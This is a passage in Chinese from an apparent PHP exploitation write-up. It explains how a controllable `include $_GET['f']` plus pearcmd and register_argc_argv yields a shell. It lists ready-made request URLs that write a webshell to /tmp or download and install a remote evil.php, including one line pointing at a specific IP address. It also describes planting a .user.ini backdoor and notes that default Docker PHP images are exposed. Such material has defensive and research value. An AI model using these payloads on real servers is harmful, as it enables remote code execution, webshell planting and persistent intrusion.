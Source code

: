 - 存在可控的`include $_GET['f']`(即使是`include $_GET['f'].php`)

那么我们就可以通过上面的知识实现任意文件下载从而getshell:

 ```
 //通过本地直接写入webshell,注意这里最好抓包然后用burpsuite或者直接curl执行，否则浏览器会将< ? > 转义
 // config-create可以直接创建配置文件，且第一个参数必须以/开头
 http://ip:port/include.php?f=pearcmd&+config-create+/<?=phpinfo();?>+/tmp/evil.php
 // 通过远程直接下载webshell
 // web目录可写
 - http://ip:port/include.php?f=pearcmd&+install+-R+/var/www/html+http://ip:port/evil.php
 - http://ip:port/tmp/pear/download/evil.php
 // tmp目录可写
 - http://ip:port/include.php?f=pearcmd&+install+-R+/tmp+http://ip:port/evil.php
 - http://ip:port/include.php?f=/tmp/pear/download/evil
 ```


&+install+-R+/tmp+http://162.14.65.110:8888/1.php

## 后门

前面提到register_argc_argv是PHP INI PERDIR的,所以我们可以通过新建一个.user.ini设置register_argc_argv为On用于留后门

## 最后:docker

在php官方提供的镜像下,默认是不使用php.ini的(在/usr/local/etc/php中存在php.ini-production和php.ini-development,需要手动修改任意一个文件名为php.ini才会启动php.ini,而上面我们提到在php.ini中register_argc_argv都设置为Off)

而register_argc_argv在不设置的情况下默认为On,那么假如有一个默认的docker-php环境,并存在可控的`include $_GET['f']`(即使是include $_GET['f'].php),我们就可以利用这个漏洞实现getshell

